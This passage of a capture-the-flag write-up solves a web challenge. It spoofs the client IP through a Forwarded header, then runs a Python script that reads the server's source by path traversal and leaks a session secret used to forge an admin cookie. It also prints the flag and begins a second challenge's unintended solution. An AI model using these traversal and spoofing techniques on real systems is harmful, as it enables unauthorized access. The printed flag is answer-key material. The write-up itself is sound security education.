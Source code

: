 So that means that `X-Forwarded-For` is just another version of `Forwarded: for=<ip>`. That's a new knowledge for me.

After successfully spoofing our ip, we can exploit the LFI vulnerability at `/download` and get the source code of the app at `/home/user/server.rb`. The source code will contain the session secret we can use to craft our admin token.

Here's a simple script to do that:
```python
import requests

url = "https://notekeeper-web.challs.csc.tf"
sess = requests.Session()

res = sess.post(url + "/register", data={"username": "123123", "password": "123123", "confirmPassword": "123123"})
sess.post(url + "/login", data={"username": "123123", "password": "123123"})
print(sess.cookies.get_dict())
res = sess.post(url + "/download", data={"filename": '../../../../../../../home/user/server.rb'},headers={"Forwarded": "for=127.0.0.1;"})
print(res.text)
```
The session secret after decode HTML entities will be: ``a!g<aH5GsN:+pv"-.fcx<;/1BCLT4lixxk]q/xB(_4pn]Ya_?JT#,_=}n|wf{`23``

So to easily craft our admin token, we just need to modify our local source code with the real session secret and change the register function to allow registration as admin. Then run the app locally then register and login as admin, grab the token from cookie and use it on remote, you'll be authenticated as admin.

To get the flag, just go to `/flag` as with the admin cookie we just crafted and the header `Forwarded: for=127.0.0.1;`.

**Flag:** `CSCTF{Y0u_G0t_1t_G00d_J0b}`

## Snippets
**Solvers:** 11 <br>
**Author:** bawolff

### Unintended
This solution I used for the challenge is unintended, I use the fact that the server is using cloudflare and it will inject a script directly in to the website. It will make request to fetch the following script if the cookie `cf_clearance` is not present: `/cdn-cgi/challenge-platform/h/g/scripts/jsd/main.js`

Let's take look at the source code:
```javascript
app.get('/', async (req, res) => {
	if ( !req.query.name || !req.query.snippet ) {
		return res.redirect( "/home.htm" );
	}

	const name = req.query.name;
	const snippet = DOMPurify.sanitize( req.query.snippet );
	const nonce = crypto.randomBytes( 16 ).toString('hex');
	const script = 	`
		document.addEventListener( 'DOMContentLoaded', function () {
			document.getElementById( 'viewButton' ).addEventListener(
				'click',
				function () {
					document.getElementById( 'viewSnippet' ).innerHTML = snippet;
					document.getElementById( 'viewSnippet' ).id = 'snippetDisplay';
				}
			);
		} );
		var snippet = ${JSON.stringify(snippet)};
```
